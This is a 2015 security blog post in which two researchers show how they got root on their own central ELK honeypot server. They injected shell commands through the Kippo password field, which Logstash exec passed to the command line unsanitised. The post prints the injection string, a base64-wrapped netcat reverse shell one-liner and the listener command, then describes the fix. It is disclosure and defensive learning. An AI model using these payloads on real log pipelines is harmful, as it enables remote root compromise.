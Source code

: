 ```yaml
---
id: 347
title: Compromising a honeypot network through the Kippo password when logstash exec is used
date: 2015-08-22T11:59:08+01:00
author: wesley
layout: post
permalink: /2015/08/compromising-a-honeypot-network-through-the-kippo-password-when-logstash-exec-is-used/
---
```

This is a shared post by [@rikvduijn](http://www.twitter.com/rikvduijn) and [@wesleyneelen](http://www.twitter.com/wesleyneelen).

We have been playing with Honeypots lately (shoutout to Theo and Sebastian for adding their honeypots to the network), collecting and visualizing the data from the honeypots is done via ELK. The environment contains a central server to centralize all the collected data from the honeypots that are connected to it. The environment is visualized in the following diagram:

[<img class="alignnone size-full wp-image-348" src="/wp-content/uploads/2015/08/tmo.png" alt="tmo" width="301" height="395" />](/wp-content/uploads/2015/08/tmo.png)

In order to collect interesting data on Dutch IP&#8217;s we run every event through a filter adding [Geo location](https://www.elastic.co/guide/en/logstash/current/plugins-filters-geoip.html) based on IP. After that we run all events that pertain to Dutch IP&#8217;s through a Python script using the logstash function [exec](https://www.elastic.co/guide/en/logstash/current/plugins-inputs-exec.html).

<!--more-->

Wesley had a bad feeling about passing input of the honeypots from Logstash to Python, there was no sanitation. The following line is an example of how the input data is passed to the exec:

{% highlight c %}function:
exec {
  command => "/usr/bin/python /opt/logstash/scripts/main.py '%{clientIP}' '%{message}' >> /opt/logstash/scripts/script.log"<br />
}
{% endhighlight %}

Rik had the feeling that all &#8220;evil&#8221; input from the honeypots would be nicely encapsulated in JSON. What Rik did not think trough is that characters in JSON have a different locution than on the commandline. In order to figure out how the input was used we chose to test it. First just from the commandline, calling python with the raw event data from logstash.

{% highlight python %}
python main.py '127.0.0.1' '{"message":"{\"peerIP\": \"xx.245.xx.204\", \"commands\": [], \"loggedin\": null, \"version\": \"SSH-2.0-libssh2_1.4.1\", \"ttylog\": null, \"urls\": [], \"hostIP\": \"127.0.0.1\", \"peerPort\": 39277, \"session\": \"e8dba2e567e34f84b983e8f65810fd54\", \"startTime\": \"2015-08-05T23:27:07.407834\", \"hostPort\": 22, \"credentials\": [[\"nickname\", \"nickname\"], [\"name\", \"name\"]], \"endTime\": \"2015-08-05T23:27:10.215302\", \"unknownCommands\": []}","@version":"1","@timestamp":"2015-08-05T21:27:09.671Z","host":"localhost","chan":"kippo.sessions","name":"cc82a86a-3491-11e5-8589-000c29e0a40d","peerIP":"xx.245.xx.204","commands":[],"loggedin":null,"version":"SSH-2.0-libssh2_1.4.1","ttylog":null,"urls":[],"hostIP":"127.0.0.1","peerPort":39277,"session":"e8dba2e567e34f84b983e8f65810fd54","startTime":"2015-08-05T23:27:07.407834","hostPort":22,"credentials":[["nickname","nickname"],["name","name"]],"endTime":"2015-08-05T23:27:10.215302","unknownCommands":[],"geoip":{"ip":"xx.245.xxx.204","country_code2":"US","country_code3":"USA","country_name":"United States","continent_code":"NA","region_name":"PA","city_name":"Glenshaw","postal_code":"15116","latitude":40.54700000000006,"longitude":-79.988,"dma_code":508,"area_code":412,"timezone":"America/New_York","real_region_name":"Pennsylvania","location":[-79.988,40.54700000000006],"coordinates":[-79.988,40.54700000000006]},"validatedIP":"xx.245.xx.204","valid_ip":"true"}'
{% endhighlight %}
Adding a text to commands should allow us to test if it is vulnerable. We chose to add &#8216;; touch /tmp/testing# as expected this worked. Now we need to do this via a honeypot. We chose Kippo because this allowed us the most input. Filling in the command seemed harder than expected, kippo did not like the input and did not log it to our central server. We hoped kippo would log our input under &#8220;unknownCommands&#8221; but this failed.

After a while we thought what does kippo log every time no matter what: username and password. Supplying the password &#8216;; touch /tmp/testing# we expected a file in tmp. Finding temp with no new file was dissapointing and it was lucky we looked under / finding a file &#8220;tmp, testing&#8221; created by the root user! We now knew that command injection via a honeypot into our ELK host was possible and with root privileges to boot. However Logstash converted our slashes to comma&#8217;s and we do need comma&#8217;s for something like &#8220;nc 192.168.1.1 1234 -e /bin/bash&#8221;. We decided to use base64.

We want to run the command ‘nc.traditional <IP> 4444 -e /bin/bash’, so we encoded this command into base64:

<pre>
echo -n 'nc.traditional 10.10.10.10 4444 -e /bin/bash' | base64
</pre>

This results in the following value:

<pre>
bmMudHJhZGl0aW9uYWwgMTAuMTAuMTAuMTAgNDQ0NCAtZSAvYmluL2Jhc2g=
</pre>

We created a oneliner which takes this value, decodes it and runs its output. The command is the following:

<pre>
'; VAR=bmMudHJhZGl0aW9uYWwgMTAuMTAuMTAuMTAgNDQ0NCAtZSAvYmluL2Jhc2g=; VAR2=$(echo $VAR | base64 -d); $($VAR2);#
</pre>

Let&#8217;s test this, we set up our listener: nc -lvvp 4444 and then ssh into our Kippo honeypot with the user: &#8220;root&#8221; and password:

<pre>
'; VAR=bmMudHJhZGl0aW9uYWwgMTAuMTAuMTAuMTAgNDQ0NCAtZSAvYmluL2Jhc2g=; VAR2=$(echo $VAR | base64 -d); $($VAR2);#
</pre>

Closing the logon session forced kippo to log the data to our ELK server, Logstash passes the input to the commandline injecting our command. We received a reverse root shell.

[<img class="alignnone size-full wp-image-353" src="https://forsec.nl/wp-content/uploads/2015/08/tmpa.png" alt="tmpa" width="816" height="104" />](https://forsec.nl/wp-content/uploads/2015/08/tmpa.png)

[<img class="alignnone size-full wp-image-349" src="https://forsec.nl/wp-content/uploads/2015/08/bqBXfp7.gif" alt="bqBXfp7" width="320" height="240" />](https://forsec.nl/wp-content/uploads/2015/08/bqBXfp7.gif)

The following diagram shows the path the attacker took in order to compromise the centralized honeypot server:

[<img class="alignnone size-full wp-image-350" src="/wp-content/uploads/2015/08/tmp.png" alt="tmp" width="336" height="579" />](/wp-content/uploads/2015/08/tmp.png)

Thinking back on it, it was obvious that passing uncontrolled user input to the commandline was a bad idea. The fact that logstash ran with root privileges was a shock. The way we comprised the ELK while using the exec function, is a quite advanced attack which doesn’t seem to be impossible.  
We fixed our vulnerability by using another way to pass the input to the Python script. We firstly validate our IP-address using the following grok filter:

{% highlight c %}
filter {
grok {
match => { "attackerIP" => "%{IP:validatedIP}" } add_field => { "valid_ip" => "true" }
match => { "peerIP" => "%{IP:validatedIP}" } add_field => { "valid_ip" => "true" }
match => { "remote_host" => "%{IP:validatedIP}" } add_field => { "valid_ip" => "true" }
  }
}
{% endhighlight %}

This prevents the IP to be manipulated with another value.  
The message input, which is the most likely to be manupilated, is written to a file by logstash, the filename is passed to the commandline as an static value. This prevents an attacker to manipulate the command in the exec function using the message input.
